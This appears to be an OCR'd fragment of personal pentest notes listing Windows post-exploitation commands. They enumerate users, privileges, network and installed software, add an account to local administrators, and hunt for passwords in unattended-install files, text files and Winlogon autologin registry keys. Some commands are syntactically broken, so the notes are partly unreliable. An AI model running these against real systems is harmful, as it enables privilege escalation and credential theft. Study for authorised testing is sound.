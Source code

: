 - (firewall)

```
netsh firewall show state 
```

```
Whoami /priv
```

```
Ipconfig | ipconfig /all  |
```

```
netstat -ano | route print
```

```powershell
Powershell | Get-LocalUser | Get-LocalGroup | Get-LocalGroupMember Administrators
```

```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall*" | select displayname   (check software with version 32 bit and below 64)
```

```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall*" | select displayname
```

```
Get-Process
```

- If RDP is enable or we enable it then add this

```powershell
net localgroup administrators /add
```

- Unattended Windows Installatiom (old files of user n pass then crack)

```
dir /s sysprep.inf sysprep.xml unattended.xml unattend.xml *unattended.txt 2>null
```

#### GoldMine Password/plaintext

- Common Password

```
 findstr /si password .txt | .xml | *.ini
```

```
Registry  | (IF VNC install)
```

- autologin

```
 reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 
```

